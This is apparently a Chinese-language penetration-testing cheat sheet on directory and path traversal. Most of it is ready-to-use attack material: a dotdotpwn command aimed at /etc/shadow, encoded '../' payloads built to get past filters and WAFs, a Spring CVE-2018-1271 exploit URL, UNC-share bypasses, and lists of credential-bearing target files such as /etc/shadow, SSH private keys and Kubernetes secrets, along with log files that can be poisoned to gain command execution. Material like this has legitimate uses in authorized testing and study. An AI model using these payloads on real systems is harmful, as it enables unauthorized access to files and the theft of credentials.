 # 目录遍历

> 目录或路径遍历是利用用户提供的输入文件名的安全性验证/清理不够，以便将表示“遍历到父目录”的字符传递给文件api。

## Summary

* [Tools](#tools)
* [Basic exploitation](#basic-exploitation)
    * [16 bits Unicode encoding](#)
    * [UTF-8 Unicode encoding](#)
    * [Bypass "../" replaced by ""](#)
    * [Bypass "../" with ";"](#)
    * [Double URL encoding](#)
    * [UNC Bypass](#unc-bypass)
* [Path Traversal](#path-traversal)
    * [Interesting Linux files](#)
    * [Interesting Windows files](#)
* [References](#references)

## Tools

- [dotdotpwn - https://github.com/wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn)
    ```powershell
    git clone https://github.com/wireghoul/dotdotpwn
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## Basic exploitation

我们使用 `..` 字符来访问上层目录，下面的字符串是几种可以帮助您绕过防护不佳的筛选器的编码。

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### 16 位 Unicode 编码

```powershell
. = %u002e
/ = %u2215
\ = %u2216
```

### UTF-8 Unicode 编码

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

### 用 "" 绕过 "../" 
有时你会遇到一个WAF，它删除了“..”/"字符串中的字符，复制它们。

```powershell
..././
...\.\
```

### 用 ";" 绕过 "../" 

```powershell
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt 
```

### 双 URL 编码

```powershell
. = %252e
/ = %252f
\ = %255c
```

**e.g:** Spring MVC 目录遍历漏洞 (CVE-2018-1271) 使用 `http://localhost:8080/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini`

### UNC 绕过

攻击者可以将Windows UNC共享('\\UNC\share\name')注入到软件系统中，从而可能将访问重定向到任意的位置或任意文件。

```powershell
\\localhost\c$\windows\win.ini
```


## Path Traversal

### 引人注目的 Linux 文件

```powershell
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
```

### 引人注目的 Windows 文件

检查引人注目的文件 (转自 https://github.com/soffensive/windowsblindread)

```powershell
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
```

以下日志文件是可控的，可以包含在恶意payload中以实现命令执行

```powershell
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

## References

* [Directory traversal attack - Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)
* [CWE-40: Path Traversal: '\\UNC\share\name\' (Windows UNC Share) - CWE Mitre - December 27, 2018](https://cwe.mitre.org/data/definitions/40.html)